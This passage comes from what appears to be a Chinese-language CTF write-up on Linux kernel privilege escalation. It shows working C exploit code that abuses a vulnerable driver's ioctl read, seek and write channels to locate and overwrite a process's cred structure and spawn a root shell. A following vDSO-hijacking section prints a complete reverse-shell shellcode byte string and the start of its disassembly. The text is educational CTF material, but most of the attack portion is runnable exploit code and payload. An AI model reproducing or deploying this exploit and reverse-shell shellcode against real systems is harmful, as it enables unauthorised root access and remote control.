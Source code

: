```
        ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
        search = memmem(read_channel.buf, 0x1000, comm, 0x10);
        if(search){
            //cred = *(size_t *)(search - 0x8);
            //real_cred = *(size_t *)(search - 0x10);
            cred = *((size_t *)search - 1);
            //printf("[+] cred %lx\n",cred);
            real_cred = *((size_t *)search - 2);
            //printf("[+] real_cred %lx\n",real_cred);
            if((cred == real_cred) && (cred ||0xff00000000000000)){
                printf("[+] cred %lx\n",cred);
                task_struct = addr + search-(size_t)read_channel.buf;
                printf("[+] task_struct %lx\n",task_struct);
                break;
            }
        }
    }
    pid[0] = '\0'; 
    for(int i = 0; i < 30; i++){
        seek_channel.id = alloc_channel.id;
        seek_channel.index = cred - 0x10 + i;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        write_channel.id = alloc_channel.id;
        write_channel.buf = pid;
        write_channel.count = 1;
        ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);
    }
    if(getuid() == 0){
        printf("[+] get root!\n");
        system("/bin/sh");
    }

    return 0;
}

```

### 利用vdso进行提权

**shellcode 分析**

用到的反弹shellcode和常见的x86-64 shellcode差不多，但有几个修改的地方。第一个修改为：只为root进程创建反弹shell。因为每一个调用gettimeofday的进程都会触发我们的shellcode，我们不需要那些没有root权限的进程的shell权限。我们可以通过调用 0x66(sys_getuid)系统调用并将其与0进行比较。如果没有root权限，我们继续调用0x66(sys_gettimeofday)系统调用，所以其他没有不相关的进程也不会受到太多影响。但同样在root进程当中，我们不想造成更多的问题，我们将通过0x39系统调用 fork一个子进程，父进程继续执行sys_gettimeofday，而由子进程来执行反弹shell。

```
https://gist.github.com/itsZN/1ab36391d1849f15b785
"\x90\x53\x48\x31\xc0\xb0\x66\x0f\x05\x48\x31\xdb\x48\x39\xc3\x75\x0f\x48\x31\xc0\xb0\x39\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x09\x5b\x48\x31\xc0\xb0\x60\x0f\x05\xc3\x48\x31\xd2\x6a\x01\x5e\x6a\x02\x5f\x6a\x29\x58\x0f\x05\x48\x97\x50\x48\xb9\xfd\xff\xf2\xfa\x80\xff\xff\xfe\x48\xf7\xd1\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x07\x48\x31\xc0\xb0\xe7\x0f\x05\x90\x6a\x03\x5e\x6a\x21\x58\x48\xff\xce\x0f\x05\x75\xf6\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x0f\x05";


nop
push rbx
xor rax,rax
mov al, 0x66
syscall #check uid
xor rbx,rbx
```